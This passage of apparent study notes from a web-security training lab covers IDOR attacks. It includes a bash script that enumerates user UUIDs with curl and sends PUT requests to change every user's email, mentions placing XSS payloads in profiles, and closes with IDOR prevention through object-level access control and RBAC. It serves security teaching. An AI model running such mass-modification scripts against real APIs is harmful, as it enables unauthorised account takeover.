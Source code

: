 By combining the information from the **IDOR Information Disclosure** with an **IDOR Insecure Function Calls** attack on an API endpoint, we could modify other users' details and **create/delete** users while bypassing various access control checks in place.

On many occasions, the information we leak through **IDOR** can be utilized in other attacks, like IDOR or XSS, leading to more sophisticated attacks or bypassing existing security mechanisms.

With our new ``role``, we may also perform mass assignments to change specific fields for all users, like placing ``XSS payloads`` in their profiles or changing their email to an email we specify. 

**Try to write a script that changes all users' email to an email you choose..** You may do so by retrieving their ``uuids`` and then sending a ``PUT`` request for each with the new email.

1. Get the URL and then set the flags on a curl request, so that we are an admin.
2. Enumerate all users and get their UUIDS and then send a PUT request in a for loop.

```bash
#!/bin/bash

url="http://94.237.56.125:59188/profile/api.php/profile/"

for i in {1..10}
do
echo
echo "Got UUIDs:"
    b=$(curl -s -X GET "$url""$i" | jq -r ".uuid")
    echo "$b"
echo "--------"
echo 'Changing email for '$b':'
curl -X PUT -d '{"uid":"'$i'","uuid":"'$b'","role":"employee","full_name":"pwned","email":"flag@idor.htb","about":"pwned"}' "$url""$i"
echo
done
```
### IDOR Prevention
IDOR vulnerabilities are mainly caused by improper access control on the back-end servers. To prevent such vulnerabilities, we first have to build an **object-level access control system** and then use secure references for our objects when storing and calling them.
#### Object-Level Access Control
An Access Control system should be at the core of any web app since it can affect its entire design and structure. 

To properly control each area of the web app, its design has to support the segmentation of roles and permissions in a centralized manner. However, Access Control is a vast topic, so we will only focus on its role in IDOR, represented in **Object-Level access control** mechanisms.

User roles and permissions are a vital part of any access control system, which is fully realized in a **Role-Based Access Control (RBAC)** system. 

To avoid exploiting IDOR, we must map the **RBAC** to all objects and resources. The back-end server can allow or deny every request, depending on whether the requester's role has enough privileges to access the object or the resource.

Once an **RBAC** has been implemented, each user would be assigned a role that has certain privileges. Upon every request the user makes, their roles and privileges would be tested to see if they have access to the object they are requesting. They would only be allowed to access it if they have the right to do so.
